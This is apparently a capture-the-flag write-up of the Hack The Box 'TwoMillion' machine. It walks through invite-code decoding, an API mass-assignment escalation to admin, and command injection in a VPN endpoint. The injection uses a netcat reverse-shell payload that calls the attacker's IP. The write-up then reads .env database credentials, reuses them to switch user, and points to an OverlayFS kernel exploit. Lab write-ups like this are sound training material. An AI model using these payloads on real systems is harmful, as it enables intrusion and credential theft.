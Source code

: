 
# [Enumeration]()

Scanning open ports of given IP - `10.10.11.221` @ `2million.htb`

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ nmap 2million.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-01 13:15 IST
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.47s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Visiting the website.

![](Pasted%20image%2020241201131826.png)
![](Pasted%20image%2020241201131836.png)

Found below interesting JavaScript code at <http://2million.htb/js/inviteapi.min.js>

```javascript
eval(function(p, a, c, k, e, d) {
    e = function(c) {
        return c.toString(36)
    };
    if (!''.replace(/^/, String)) {
        while (c--) {
            d[c.toString(a)] = k[c] || c.toString(a)
        }
        k = [function(e) {
            return d[e]
        }];
        e = function() {
            return '\\w+'
        };
        c = 1
    };
    while (c--) {
        if (k[c]) {
            p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c])
        }
    }
    return p
}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}', 24, 24, 'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'), 0, {}))
```

Calling `makeInviteCode` function gives below response.

![](Pasted%20image%2020241201132803.png)
```json
{
	0: 200
	data: Object { data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", enctype: "ROT13" }
	hint: "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
	success: 1
}
```

Data contains encrypted message with `rot13`.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ rot13 Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Visiting <http://2million.htb/api/v1/invite/generate>

![](Pasted%20image%2020241201133317.png)

Sending `post` request from Firefox.

![](Pasted%20image%2020241201133444.png)
![](Pasted%20image%2020241201133505.png)
![](Pasted%20image%2020241201133533.png)

Found invite code. However this is encoded to base64. 

```json
{
	"0":200,
	"success":1,
	"data":{"code":"TUkzTVMtT05COEotSlBJWEgtNzNWV1I=","format":"encoded"}
}
```

Decoding the code `TUkzTVMtT05COEotSlBJWEgtNzNWV1I=` gives actual code.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ echo TUkzTVMtT05COEotSlBJWEgtNzNWV1I= | base64 -d
MI3MS-ONB8J-JPIXH-73VWR
```

Registering and logging in with the invite code `MI3MS-ONB8J-JPIXH-73VWR`

![](Pasted%20image%2020241201133927.png)
![](Pasted%20image%2020241201134020.png)

![](Pasted%20image%2020241201134041.png)

Exploration helped find the <http://2million.htb/api> endpoint is publicly exposed.

![](Pasted%20image%2020241201135737.png)

This suggest to visit there might be `/api/v1` endpoint. Using Burp-suite to intercept and repeat the request.

![](Pasted%20image%2020241201140017.png)
![](Pasted%20image%2020241201140057.png)

Below section looks interesting. 

```json
"admin":{"GET":{"\/api\/v1\/admin\/auth":"Check if user is admin"},"POST":{"\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"},"PUT":{"\/api\/v1\/admin\/settings\/update":"Update user settings"}}
```

Sending PUT request to `/api/v1/admin/settings/update` to update user settings

![](Pasted%20image%2020241201140405.png)

Need to update content type. In this case it's more likely `application/json`.

![](Pasted%20image%2020241201140520.png)

Need to update missing parameter `email`

![](Pasted%20image%2020241201140620.png)

Need to update missing parameter `is_admin` and updating this parameter to allow admin access.

![](Pasted%20image%2020241201140707.png)
![](Pasted%20image%2020241201140725.png)

Checking it we are now admin or not. Below response suggest that we are indeed admin.

![](Pasted%20image%2020241201141100.png)

Now that we are admin, we can access `/api/v1/admin/vpn/generate` to generate user specific vpn file.

![](Pasted%20image%2020241201142411.png)
![](Pasted%20image%2020241201143529.png)
![](Pasted%20image%2020241201143613.png)

Below response shows the ovpn file. This is using `cat` command to view the file. We can exploit this to perform `command injection` exploit.

![](Pasted%20image%2020241201143656.png)

# Exploitation

Inserting `a; ls #` payload to `username` parameter to check command injection exploit possibility. Below response shows that the server is vulnerable to command injection.

![](Pasted%20image%2020241201143342.png)

By exploiting command injection we can achieve remote code execution using below payload.

```
{
	"username":"a; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.15 9999 >/tmp/f #"
}
```

![](Pasted%20image%2020241201155429.png)

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.221] 51692
bash: cannot set terminal process group (1171): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@2million:~/html$ 
```

Checking `.env` file

```
www-data@2million:~/html$ ls -la
ls -la
total 56
drwxr-xr-x 10 root root 4096 Dec  1 10:40 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Dec  1 10:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass---
www-data@2million:~/html$ 
```

Found the password of `admin` user.

```
www-data@2million:~/html$ su admin    
su admin
Password: SuperDuperPass---
id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```

# [CTUF]()

Searching user flag file.

```
$ find / -name user.txt 2>/dev/null
/home/admin/user.txt
```

Checking content of `/home/admin/user.txt`

```
$ cat /home/admin/user.txt
f8404dc7c05dfa9a10c2e3ce6c557---
```

# [Enumeration of PrivEsc]()

Checking email from the dir `/var/spool/mail`.

```
$ pwd
/var/spool/mail

$ cat admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Searching `OverlayFS / FUSE exploit` found [this](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/) article explaining `CVE-2023-0386`


